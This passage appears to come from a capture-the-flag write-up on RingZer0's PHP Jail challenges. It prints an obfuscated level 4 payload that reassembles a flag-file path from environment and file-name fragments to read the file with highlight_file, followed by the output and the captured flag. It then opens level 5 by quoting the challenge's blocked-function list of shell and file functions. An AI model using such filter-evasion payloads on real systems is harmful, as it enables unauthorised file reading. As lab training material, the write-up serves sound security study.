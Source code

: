 d) Now if you put a), b) and c) together you should be able to build your payload:


```.php
define(HEY, __FILE__); highlight_file(implode(getenv(HOME)[0],[getenv(HOME)[0],home,level4,getenv(HOME)[0],implode(explode(getenv(HOME)[0],HEY)[0], [fl,explode(getenv(HOME)[0],HEY)[3][1],g,explode(getenv(HOME)[0],HEY)[3][4],t,x,t])])); 
PHP Notice:  Use of undefined constant HEY - assumed 'HEY' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant home - assumed 'home' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant level4 - assumed 'level4' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant fl - assumed 'fl' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant g - assumed 'g' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant t - assumed 't' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant x - assumed 'x' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant t - assumed 't' in /home/level4/jail.php(14) : eval()'d code on line 1
<code><span style="color: #000000">
FLAG-X9uF51b0X570f616897kLN3It3K6m63c<br /></span>
</code>Command executed
```

I know... Very complicated (I've seen solutions using `hex2bin()`) but it does its job :) 

# Level 5

```.php
RingZer0 Team Online CTF

PHP Jail Level 5:
Current user is uid=1004(level5) gid=1004(level5) groups=1004(level5)

Flag is located at /home/level5/flag.txt

Challenge PHP code:
-----------------------------

WARNING: the PHP interpreter is launched using php -c php.ini jail.php.
The php.ini file contain "disable_functions=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,readfile,require,require_once,include,include_once,file"

<?php
array_shift($_SERVER['argv']);
$var = implode(" ", $_SERVER['argv']);

if($var == null) die("PHP Jail need an argument\n");

```